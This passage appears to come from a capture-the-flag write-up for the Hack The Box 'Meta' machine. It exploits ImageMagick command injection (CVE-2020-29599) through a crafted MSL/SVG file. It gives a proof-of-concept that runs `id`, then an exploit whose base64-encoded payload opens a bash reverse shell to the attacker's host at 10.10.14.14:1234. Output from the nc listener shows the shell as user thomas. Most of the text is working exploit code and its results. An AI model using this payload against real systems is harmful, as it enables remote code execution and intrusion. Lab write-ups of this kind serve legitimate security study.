Notes:

1. the thomas has no permissions to write files under `/var/www/dev01.artcorp.htb/convert_images`. So, the payload of poc should not write things into this dir.
2. alter payload to let base64 encoded string does not have special chars like #, =, +

**POC**:

Write this `CVE-2020-29599.svg` into dir and check the injected cmd to execute.

```console
<image authenticate='ff" `echo $(id)> /dev/shm/imqwe`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">  
  <image xlink:href="msl:CVE-2020-29599.svg" height="100" width="100"/>
  </svg>
</image>
```

```console
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -l /dev/shm/imqwe
ls -l /dev/shm/imqwe
-rw-r--r-- 1 thomas thomas 54 Feb  7 01:02 /dev/shm/imqwe
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/imqwe
cat /dev/shm/imqwe
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

**Exploit**:

```console
<image authenticate='ff" `echo YmFzaCAtYyAiYmFzaCAgLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNC8xMjM0ICAwPiYxICIK | base64 -d | sh`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">  
  <image xlink:href="msl:CVE-2020-29599.svg" height="100" width="100"/>
  </svg>
</image>

---------------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.140] 56558
bash: cannot set terminal process group (9211): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ id
id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ uname -a
uname -a
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
```
